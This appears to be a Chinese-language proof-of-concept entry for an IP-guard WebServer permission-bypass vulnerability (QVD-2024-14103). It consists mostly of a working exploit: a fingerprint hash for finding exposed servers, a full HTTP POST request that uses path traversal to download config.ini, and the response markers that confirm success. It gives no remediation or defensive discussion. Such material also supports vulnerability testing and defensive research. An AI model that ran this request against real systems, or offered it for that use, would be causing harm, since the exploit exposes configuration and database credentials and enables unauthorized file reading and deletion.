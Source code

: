 ﻿# IP-guard WebServer 权限绕过漏洞

> 更新时间：2024-04-19

> 漏洞编号：QVD-2024-14103

> 漏洞说明：该漏洞的成功利用允许攻击者规避安全验证，通过后端接口执行文件的任意读取和删除操作。利用这一漏洞，攻击者有可能获取数据库的配置详情，并控制整个数据库系统。

> 漏洞特征：icon_hash="2030860561"

> 验证脚本：HTTP

```
POST /ipg/appr/MApplyList/downloadFile_client/getdatarecord HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded


path=..%2Fconfig.ini&filename=1&action=download&hidGuid=1v%0D%0A
```

> 响应代码特征：200

> 响应内容特征：host

> 上传文件定位：

> 验证文件来源：IP-guard WebServer 权限绕过漏洞.poc

